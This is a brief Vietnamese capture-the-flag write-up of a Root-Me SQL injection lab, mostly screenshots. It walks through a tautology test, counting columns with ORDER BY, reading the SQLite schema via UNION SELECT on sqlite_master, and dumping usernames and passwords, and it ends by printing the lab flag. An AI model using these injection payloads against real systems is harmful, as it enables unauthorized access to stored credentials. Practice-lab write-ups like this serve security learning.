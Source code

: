![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c9db1a72-e4b6-4a6b-87a5-a947b5d41ecf)

trong lab này có 3 action là news, recherche, login thì có tính năng tìm kiếm (Cherche) là detect sqli

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2a7c6b23-cdad-4ce9-b3e0-6e1579c2c8b1)

=> nó sử dụng SQLite3
Hoặc không thì có thể thấy khi sử dụng ```' or 1=1--```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c97e27fb-e3ef-4405-a348-0435779e4d1c)

Khi tôi thử đến ```' order by 3--``` thì báo lỗi => có 2 cột

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/954025ba-a48a-4101-8716-187b7b696a10)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/65b06731-5751-4299-9e4a-d83947cbde99)

Sử dụng ```a’union select 1,sql FROM sqlite_master;``` => thấy tên bảng, tên cột

Sau đó chỉ cần ```a’ union select username,password FROM users--``` => flag là ```c4K04dtIaJsuWdi```

:V đến đây rồi thì dễ thôi nhưng có vẻ như lab quá lâu rồi và có vấn đề nào đó khi truy vấn tới database nên nó sẽ báo lỗi connect thì phải =))) tôi đoán vậy

